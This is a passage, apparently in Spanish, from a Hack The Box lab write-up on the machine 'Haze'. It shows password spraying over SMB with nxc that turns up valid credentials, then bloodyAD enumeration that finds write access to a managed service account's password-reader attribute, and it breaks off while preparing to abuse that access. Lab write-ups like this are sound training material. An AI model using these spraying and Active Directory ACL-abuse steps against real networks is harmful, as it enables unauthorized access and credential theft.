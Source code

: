 Como decía, si hacemos password spraying para ver si esta contraseña es reutilizada por alguien más:

```bash
❯ nxc smb haze.htb -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success 
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
```

### Haze-IT-Backup$ - haze.htb

Si intentamos ver información de la ACLs por Bloodhound de estos usuarios que acabamos de comprometer, veremos que *aparentemente* no tendremos ningún permiso nuevo más que el de `mark.adams` de acceder por WinRM. Sin embargo, si vemos a más bajo nivel con herramientas como bloodyAD la ACL del usuario previamente mencionado:

```bash
❯ bloodyAD -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb --host dc01.haze.htb get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=haze,DC=htb
permission: WRITE

distinguishedName: CN=Mark Adams,CN=Users,DC=haze,DC=htb
permission: WRITE

distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
permission: WRITE
```

Si hay algo. Recordatorio de porque hay que investigar bien las cosas.

No podremos encontrar algo interesante por el sistema como `mark.adams` más que unas cuantas carpetas a las cuales no tenemos permisos para acceder. Por lo que vamos a ver más acerca de ese permiso que tenemos sobre la cuenta de servicio administrada:

```bash
❯ bloodyAD -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb --host dc01.haze.htb get writable --detail
... [snip]
distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
msDS-GroupMSAMembership: WRITE
```

Ese atributo que vemos básicamente le dice al servidor quienes pueden leer la contraseña de esta cuenta. Podemos escribirlo con nuestro usuario simplemente usando el cmdlet `Set-ADServiceAccount` de powershell, estando dentro de WinRM como el usuario:
